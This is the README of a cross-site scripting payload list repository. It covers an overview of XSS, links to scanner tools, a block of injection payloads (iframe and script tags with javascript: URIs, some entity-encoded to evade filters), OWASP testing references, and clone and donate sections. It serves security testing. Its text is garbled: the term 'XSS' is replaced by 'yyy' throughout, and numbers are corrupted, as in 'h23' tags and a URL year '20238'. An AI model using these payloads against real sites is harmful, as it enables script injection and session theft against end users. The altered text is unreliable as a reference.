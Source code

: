 
### 🚀 Cross Site Scripting ( yyy ) Vulnerability Payload List 🚀

<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e2354dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/yyy-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/yyy-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/yyy-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/yyy-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/yyy-payload-list/23">

##### Overview : 

Cross-Site Scripting (yyy) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. yyy attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use yyy to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of yyy flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### yyy Vulnerability Scanner Tool's :

* [yyytrike](https://github.com/UltimateHackers/yyytrike)

* [Bruteyyy Terminal](https://github.com/shawarkhanethicalhacker/Bruteyyy)

* [Bruteyyy GUI](https://github.com/rajeshmajumdar/Bruteyyy)

* [yyy Scanner Online](http://yyy-scanner.com/)

* [yyyer](https://tools.kali.org/web-applications/yyyer)

* [yyycrapy](https://github.com/DanMcInerney/yyycrapy)  
* [Cyclops](https://github.com/v8blink/Chromium-based-yyy-Taint-Tracking)  

#### yyy Payload List :

```
<!-- Project Name  : Cross Site Scripting ( yyy ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->
<!--        GitHub : https://github.com/ismailtasdelen/ -->
<!--       Twitter : https://twitter.com/ismailtsdln -->
<!--        Medium : https://medium.com/@ismailtasdelen -->




"><h23><IFRAME SRC="javascript:alert('yyy');"></IFRAME>">2323</h23>






"><h23><IFRAME SRC="javascript:alert('yyy');"></IFRAME>">2323</h23>
<IFRAME SRC="javascript:alert('yyy');"></IFRAME>
<sVg><scRipt >alert&lpar;23&rpar; {Opera}
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
<script ^__^>alert(String.fromCharCode(49))</script ^__^








###### Testing for Stored Cross site scripting (OTG-INPVAL-002)

* 👉 https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)

###### Testing for DOM-based Cross site scripting (OTG-CLIENT-0023)

* 👉 https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-0023)

###### DOM Based yyy

* 👉 https://www.owasp.org/index.php/DOM_Based_yyy

###### Cross-Site Scripting (yyy) Cheat Sheet | Veracode

* 👉 https://www.veracode.com/security/yyy

#### Recommended books :

* [yyy Attacks: Cross-site Scripting Exploits and Defense](https://books.google.com.tr/books/about/yyy_Attacks.html?id=dPhqDe0WHZ8C)

* [yyy Cheat Sheet](https://leanpub.com/yyy)


### Cloning an Existing Repository ( Clone with HTTPS )
```
root@ismailtasdelen:~# git clone https://github.com/ismailtasdelen/yyy-payload-list.git
```

### Cloning an Existing Repository ( Clone with SSH )
```
root@ismailtasdelen:~# git clone git@github.com:ismailtasdelen/yyy-payload-list.git
```

### Published Website :

##### Kitploit - https://www.kitploit.com/20238/05/yyy-payload-list-cross-site-scripting.html

### Donate!

Support the authors:

#### LiberaPay:

<noscript><a href="https://liberapay.com/ismailtasdelen/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
--end--

